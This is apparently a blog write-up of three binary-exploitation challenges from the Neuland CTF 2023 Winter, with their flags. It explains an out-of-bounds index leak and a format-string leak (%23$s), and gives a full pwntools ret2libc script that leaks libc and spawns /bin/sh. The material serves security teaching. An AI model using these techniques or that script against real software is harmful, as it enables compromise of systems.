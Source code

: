 ```yaml
---
title: "Neuland CTF 2023 Winter - PWN/Binary Exploitation"
authors: ["Neuland CTF Orga"]
date: 2023-12-09T21:00
published: true
tags:
- ctf
- writeup
- security
- cyber
- cybersecurity
---
```


</br>

Download challenges: [Neuland CTF Repository](https://github.com/neuland-ingolstadt/Neuland-CTF-2023-Winter)

</br>

## Higher and Lower - Easy
*No one has guessed my number yet, maybe you can find another way to get the flag.*

[higher_lower.c](/files/neuland-ctf-12-2023/higher_lower.c)

</br>

The program is the well-known children's game higher or lower. However, as the author teases in the description, there is probably no way to win the game fairly. In the enclosed C code, the flag is initially defined and then referenced in the main. Furthermore, the inefficient design decision was made to use an array to select the numbers. Our guessed number is used as an index for this array, and the respective position is output. Since the flag variable in the stack is right next to the array, and the input is not sanitized, we might have a chance to query the flag above it. Depending on the compiler, we print the segment by calling index *-1* or *11*, which is no longer in the array but outputs the surrounding variables.

</br>

The flag is `nland{practical_application_abandoned}`.

</br>

## Secure4Sure - Easy
*Works as intended?*

[Secure4Sure.c](/files/neuland-ctf-12-2023/Secure4Sure.c)

</br>

We get C code, which appears to be the login for Secure4Sure. The user can enter an access code, and the program compares it with the hardcoded string at the beginning of the program. The user input looks like a suitable attack vector because it is printed later in the program. The fgets() function reads a line of the specified input stream and stores it in the buffer variable. These are the perfect conditions for a format string attack that uses printf() features. For example, the string to be output can be manipulated using special commands such as *%s* or *%d*. `printf("My %s is", name)`. *%s* which expects a string is replaced by the contents of the name variable. Printf() reads the previous address from the stack. So if we typed *printf(%s %s)* we would get the last two strings on the stack. However, if this input is longer than the maximum length defined in fgets(), we get a segment fault. Another string format feature is *%&lt;nth address>$s*, which jumps directly to the specified point in the stack. If we write *%p* as input, the program returns the pointer address. With this address, you can look at the stack and calculate the offset. A more straightforward method that does not require precise knowledge of the stack and how it works is fuzzing. Here, you can try out all offsets until the access code is output. With the locally used compiler, the correct offset was *%23$s*.

![](../../src/blog/images/neuland-ctf-12-2023/Secure4Sure.png)

</br>

The flag is `nland{DIN13432}`.

</br>

## Safe Return - Hard
Author: [Jonny](https://github.com/Baikuya)</br>

*There is always a safe place to return :).*

[Safe_Return.c](/files/neuland-ctf-12-2023/Safe_Return.c)

</br>

```
from pwn import *

p = process("./Safe_Return")
write_addr = 0x08049291
puts_addr = 0x08049245
hello_addr = 0x0804a008
got_read = 0x0804c004
p.send(b"A"*0x34)
p.recvuntil(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
p.recv(4)
ebp_bytes = p.recv(4)
ebp = u32(ebp_bytes)
print(hex(ebp))
safe_function = 0x080491b6
ret_nop=0x080491e4
p.recvuntil(b"\n")
payload = b"A"*0x48+p32(ebp)+p32(puts_addr)+p32(got_read)+p32(0)*2+p32(safe_function)
payload += b"A"*(0x80-len(payload))

p.send(payload)
read_leak = u32(p.clean(timeout=1)[:4])
read_offset = 0x0011e0a0
print(hex(read_leak))
libc_base = read_leak-read_offset
print(hex(libc_base))

system = libc_base + 0x0004f600
payload = b"A"*0x48+p32(ebp)+p32(system)+p32(0)+p32(ebp+20)+b"/bin/sh\x00"
payload += b"A"*(0x80-len(payload))
p.send(payload)

p.interactive()
```

</br>

The flag is `nland{G0_TO_J0NNy_And_Say_KinkoFe}`.

